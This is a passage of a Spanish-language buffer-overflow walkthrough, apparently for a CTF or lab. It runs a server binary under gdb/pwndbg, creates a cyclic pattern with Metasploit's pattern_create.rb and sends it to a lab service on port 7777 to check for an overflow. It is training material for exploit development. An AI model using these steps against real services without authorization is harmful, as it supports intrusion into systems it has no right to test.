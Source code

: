 Lo guardamos y si iniciamos `gdb` veremos lo siguiente:

```shell
gdb -q ./server
```

Info:

```
pwndbg: loaded 176 pwndbg commands and 40 shell commands. Type pwndbg [--shell | --all] [filter] for a list.
pwndbg: created $rebase, $base, $hex2ptr, $bn_sym, $bn_var, $bn_eval, $ida GDB functions (can be used with print/break)
Reading symbols from ./server...

This GDB supports auto-downloading debuginfo from the following URLs:
  <https://debuginfod.ubuntu.com>
Debuginfod has been disabled.
To make this setting permanent, add 'set debuginfod enabled off' to .gdbinit.
(No debugging symbols found in ./server)
------- tip of the day (disable with set show-tips off) -------
Use GDB's dprintf command to print all calls to given function. E.g. dprintf malloc, "malloc(%p)\n", (void*)$rdi will print all malloc calls
pwndbg>
```

### Comprobacion de desbordamiento de Buffer

En el `host`, generamos una cadena de caracteres diseñada para intentar desbordar el `buffer` de la aplicación. Esto se logra con la herramienta `pattern_create.rb`:

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400
```

Info:

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
```

Este patrón se usará como entrada en la aplicación para identificar cómo se maneja el `buffer`.

Ahora llendonos al `GDB` tendremos que ejecutar `run`.

Y en nuestro `host` con el binario `sender` tendremos que enviar todos estos caracteres:

```shell
./sender <IP> 7777
```

Info:

```
Conectado al servidor en 172.17.0.3:7777
Introduce los datos para enviar: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
Datos enviados: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
```
